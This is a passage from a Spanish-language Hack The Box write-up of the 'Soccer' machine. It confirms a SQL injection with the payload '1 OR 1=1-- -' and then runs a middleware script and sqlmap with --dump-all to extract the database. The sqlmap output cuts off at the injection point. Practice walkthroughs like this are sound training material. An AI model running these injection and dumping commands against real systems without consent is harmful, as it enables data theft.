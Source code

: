 
* Si observas el resultado que marca BurpSuite, al parecer el número de Id no existe:

<p align="center">
<img src="/assets/images/htb-writeup-soccer/Captura18.png">
</p>

* Vamos a meter la inyección aquí, dentro de los parentesis vamos a utilizar la inyección básica con la que podemos identificar si es vulnerable a una inyección SQL:
```bash
id: "1 OR 1=1-- -"
```

<p align="center">
<img src="/assets/images/htb-writeup-soccer/Captura19.png">
</p>

Con esto comprobamos que si es vulnerable a una inyección SQL, es posible que podamos listar información, pero eso ya lo dejo para que lo practiques. Vamos a aprovecharnos de esto y utilizaremos el blog para ver que podemos dumpear de la BD con **SQLMAP**.

Yo voy a copiar el script que viene ahí y lo llamaré **Sqlmap_Exploit.py** y en otra terminal, tendré listo el siguiente comando:
```bash
sqlmap -u "http://localhost:8081/?id=1" --dump-all --exclude-sysdbs
```
Con este comando, vamos a ir capturando la data de la variable **id** y se mostrara en la terminal como si fuera un **verbose**, además vamos a excluir la base de datos del sistema, es decir que va a ignorar los demás.

* Bien, activamos el script primero y esperamos unos 10 segundos:
```bash
python3 Sqlmap_Exploit.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```

* Ahora activa el comando de **SQLMAP** y comenzará a capturar:
```bash
sqlmap -u "http://localhost:8081/?id=1" --dump-all --exclude-sysdbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 14:59:48 /2023-04-12/
[14:59:48] [INFO] resuming back-end DBMS 'mysql' 
[14:59:48] [INFO] testing connection to the target URL
[14:59:49] [WARNING] turning off pre-connect mechanism because of incompatible server ('SimpleHTTP/0.6 Python/3.11.2')
sqlmap resumed the following injection point(s) from stored session:
---
```